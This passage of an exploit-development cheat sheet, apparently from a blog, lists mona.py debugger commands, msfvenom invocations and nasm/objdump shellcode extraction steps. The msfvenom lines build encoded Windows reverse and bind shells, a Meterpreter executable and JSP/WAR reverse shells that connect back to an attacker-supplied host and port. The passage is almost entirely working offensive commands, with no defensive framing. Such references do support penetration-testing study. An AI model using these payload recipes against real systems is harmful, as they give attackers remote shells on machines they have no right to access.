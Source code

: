 !mona seh

# Analyze bytes from 001254c1
!mona compare -f C:\logs\something\bytearray.bin -a 001254c1

#Converts given assembly instructions(sparated by "#") into opcode
!mona assemble -s "pop eax#push ebx#mov ebp,esp"

#Find ASCII string 'w00t' in memory,  type can be 'asc', 'instr'
!mona find -type asc -s "w00t"  

#Update mona
!mona update

{% endhighlight %}

-----





Payload Generation with MSFvenom

{% highlight ruby %}
msfvenom -l payloads
msfvenom --help-formats

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=<UR IP> LPORT=<PORT> -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 2 -f python

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<UR IP> LPORT=<PORT> -e x86/shikata_ga_nai  -b '\x00\x0a\x0d' -f exe -o myshell.exe

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<UR IP> LPORT=<Port> -f raw > jspshell.jsp

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<UR IP> LPORT=<Port> -f war > myshell.war

msfvenom -p windows/shell_bind_tcp LPORT=4321 -e x86/shikata_ga_nai -b "\x00\x0d\x0a" -i 3 -f c

# where Arch(-a), Platform(- -platform), Payload(-p), encoder(-e),  Encode-Iteration(-i), Bad-chars(-b), Output Format(-f), OutPut-File(-o)
{% endhighlight %}
-----




Compiling & Extract shellcode from a Binary

{% highlight ruby %}
# Compiles and generates an object file from given nasm file where -f(output format) -o(output file)
nasm -f elf32 -o myobj.o myfile.nasm

# use "objdump" to extract the shellcode out from the generated object file "myobj.o"
objdump -d myobj.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
{% endhighlight %}
-----
